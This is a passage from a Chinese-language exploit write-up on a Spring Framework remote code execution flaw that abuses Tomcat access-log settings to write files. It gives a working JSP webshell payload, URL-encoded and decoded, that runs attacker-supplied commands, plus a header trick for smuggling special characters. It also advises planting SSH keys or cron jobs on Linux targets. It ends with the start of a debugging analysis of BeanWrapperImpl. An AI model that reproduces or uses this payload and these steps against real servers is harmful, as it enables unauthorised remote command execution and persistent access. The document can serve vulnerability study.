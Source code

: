   
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXAey1zSCrD4wRLBaiciaxbAZHic2HKlrdGPcYjuuMJDqxKicxicnUTPKkmdkficpfShhVD3yozlLvHG2Tg/640?wx_fmt=png "")  
  
注意：这里webapps/ROOT是写入相对路径，C:\JAVA\Tomcat\apache-tomcat-8.5.72\webapps\handling_form_submission_complete_war是写入相对路径；同时，路径只能写入1次，无法修改，所以验证漏洞存在，写入webshell时，需要知道网站的相对路径，或者绝对路径，才可以写入成功。因此，对于linux环境，漏洞利用，可以写入ssh密钥，或者定时任务，比写入webshell更有价值；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXAey1zSCrD4wRLBaiciaxbAZDStEzvxicxmboYNG4LPAhO3p2GiaJ2vew2PDTxHxssIyCZ8iaibQn81jUg/640?wx_fmt=png "")  
  
写入内容对比发现，直接写入webshell，%等特殊字符会造成乱码；  
  
输入：  
```
%3c%25%20%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%3e%0a%0a
```  
  
url解码：  
```
<% if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } >
```  
  
解决办法，通过头信息，将特殊字符写入进去。  
  
输入：  
```
%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di
```  
  
url解码：  
```
%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXAey1zSCrD4wRLBaiciaxbAZINFyWB2pyFRWia3stHiaDw86bW6JpfwtjeTWU6B0vAUdpRiaBNzbYic4HA/640?wx_fmt=png "")  
  
写入内容对比：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXAey1zSCrD4wRLBaiciaxbAZFSvXnrwicNF32XwYrvsPNnI7dnJ3eDWMW3emiaZUat3alJUo6icDshr1Q/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRLqgKGNJyxzib43By9noWJNzUBvriaFKStluTJAW93gy6ISjiaOlIk7mG6PQxegIvlE2BLQbFSh6dnclSlg961zJE/640?wx_fmt=svg "")  
  
  
漏洞分析  
  
首先，在 spring-beans-5.3.15-sources.jar下，   
  
\org\springframework\beans\BeanWrapperImpl.java 设置断点调试；post参数：username=admin&password=admin。  
```
protected BeanPropertyHandler getLocalPropertyHandler(String propertyName) {
PropertyDescriptor pd = getCachedIntrospectionResults().getPropertyDescriptor(propertyName);
return (pd != null ? new BeanPropertyHandler(pd) : null);
}
```  
  